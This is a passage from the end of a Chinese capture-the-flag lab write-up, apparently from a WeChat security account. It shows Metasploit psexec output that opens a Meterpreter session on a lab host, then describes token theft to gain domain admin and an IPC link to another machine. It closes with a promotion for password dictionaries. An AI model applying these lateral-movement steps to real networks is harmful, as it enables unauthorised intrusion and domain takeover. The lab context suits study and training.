 ```
msf6 exploit(windows/smb/psexec) > run

[*] 10.10.10.201:445 - Connecting to the server...
NOTE: Rex::Socket.gethostbyname is deprecated, use getaddress, resolve_nbo, or similar instead. It will be removed in the next Major version
[*] 10.10.10.201:445 - Authenticating to 10.10.10.201:445|cncat as user 'Administrator'...
[*] 10.10.10.201:445 - Selecting PowerShell target
[*] 10.10.10.201:445 - Executing the payload...
[+] 10.10.10.201:445 - Service start timed out, OK if running a command or non-service executable...
[*] Started bind TCP handler against 10.10.10.201:4446
NOTE: Rex::Socket.gethostbyname is deprecated, use getaddress, resolve_nbo, or similar instead. It will be removed in the next Major version
[*] Sending stage (200266 bytes) to 10.10.10.201
[*] Meterpreter session 5 opened (0.0.0.0:0 -> xxx.xxx.xxx.xxx:22222) at 2021-06-02 06:35:22 +0000

meterpreter >
```

通过令牌窃取常规手段把身份切换为域管：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7CpsvxKiar5F10EXefBLaicK1SDo0VKw2biaNuUPdAbBrj9ibAWokicp7zNLg/640?wx_fmt=png)

然后通过域管和域机器 10.10.10.209 建立 IPC：  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7CFbTvGQicl0kxYSS30XCicyhOkaPnTgPF1HR8uhswxwWODpw6kAqCw1Kw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIPUUGbhpnqu0vkpaPX1K7C8txBI7zeQFgWQMjd54eR1tyQzsvTic0uicoorMoQZ5117cgKcfBhpDDw/640?wx_fmt=png)

至此最后一个 flag 也拿到手，本次靶场顺利通过！

**结尾**

对于红队成员来说最重要的就是渗透不能有短板，各种漏洞都应该去复现一遍，由于我 Exchange 的漏洞未复现导致卡了很长时间，最后还是使用暴力的手段拿到域控，在真实环境中很危险，很有可能导致域控的密码恢复不了！哦豁，那你就等着跑路吧！

关注公众号回复 “9527” 可免费获取一套 HTB 靶场文档和视频，“1120” 安全参考等安全杂志 PDF 电子版，“1208” 个人常用高效爆破字典，“0221”2020 年酒仙桥文章打包，还在等什么？赶紧点击下方名片关注学习吧！

公众号

* * *

**推 荐 阅 读**

  

  

  

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcAcRDPBsTMEQ0pGhzmYrBp7pvhtHnb0sJiaBzhHIILwpLtxYnPjqKmibA/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247487086&idx=1&sn=37fa19dd8ddad930c0d60c84e63f7892&chksm=cfa6aa7df8d1236bb49410e03a1678d69d43014893a597a6690a9a97af6eb06c93e860aa6836&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcIJDWu9lMmvjKulJ1TxiavKVzyum8jfLVjSYI21rq57uueQafg0LSTCA/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486961&idx=1&sn=d02db4cfe2bdf3027415c76d17375f50&chksm=cfa6a9e2f8d120f4c9e4d8f1a7cd50a1121253cb28cc3222595e268bd869effcbb09658221ec&scene=21#wechat_redirect)
